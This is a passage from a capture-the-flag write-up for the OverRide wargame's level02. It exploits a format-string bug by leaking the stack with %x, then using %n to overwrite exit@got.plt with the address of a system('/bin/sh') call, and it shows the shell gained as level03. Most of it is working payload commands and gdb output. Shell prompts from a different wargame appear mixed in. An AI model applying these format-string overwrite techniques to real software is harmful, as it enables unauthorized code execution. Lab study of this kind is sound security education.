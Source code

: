 ```sh
level3@RainFall:~$ python2 -c 'print("\x60\x12\x28"[::-1])' > /tmp/password
level3@RainFall:~$ python2 -c 'print("%x " * 8)' > /tmp/username
level02@OverRide:~$ (cat /tmp/username; cat /tmp/password ) | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
ffffe4c0 0 28 2a2a2a2a 2a2a2a2a ffffe6b8 f7ff9a08 601228  does not have access!
```

As we know, the `%n` conversion specifier can modify the value of the memory address passed to it. Therefore, I decided to replace the last %x conversion specifier with `%n` in the printf function call.

before using the `%n` conversion:

```s
(gdb) r < <(cat /tmp/username; cat /tmp/password)
Starting program: /home/users/level02/level02 < <(cat /tmp/username; cat /tmp/password)
(gdb) set {char [26]} 0x400bb2="/home/users/level02/.pass"
(gdb) x/wx 0x601228
0x601228 <exit@got.plt>: 0x00400716
```

after using the `%n` conversion:

```
level3@RainFall:~$ python2 -c 'print("%x " * 7 + "%n")' > /tmp/username
-------------------------------------------------------------------------
(gdb) r < <(cat /tmp/username; cat /tmp/password)
Starting program: /home/users/level02/level02 < <(cat /tmp/username; cat /tmp/password)
(gdb) set {char [26]} 0x400bb2="/home/users/level02/.pass"
(gdb) x/wx 0x601228
0x601228 <exit@got.plt>: 0x00000032
```

now, we need just to calculate the padding needed to change the value of the address `0x601228` to the address of the `system` call with the parameter `"/bin/sh"` passed to it in the `main` function `(0x400a85)`

```
>>> 0x400a85 + 8 - 50 // address + width of the last x conversion - the length of the last output (0x32)
4196955
```

And by performing this operation, we can use the generated payload to attempt to exploit the `level2` binary:

```sh
level02@OverRide:~$ python2 -c 'print("%x " * 6 + "%4196955x " + "%n")' > /tmp/username
level02@OverRide:~$ (cat /tmp/username; cat /tmp/password - ) | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
ffffe4c0 0 28 2a2a2a2a 2a2a2a2a ffffe6b8 (after 4196947 space)f7ff9a08  does not have access!
whoami
level03
cd ../level03
ls -la
total 17
dr-xr-x---+ 1 level03 level03   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level03 level03  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
```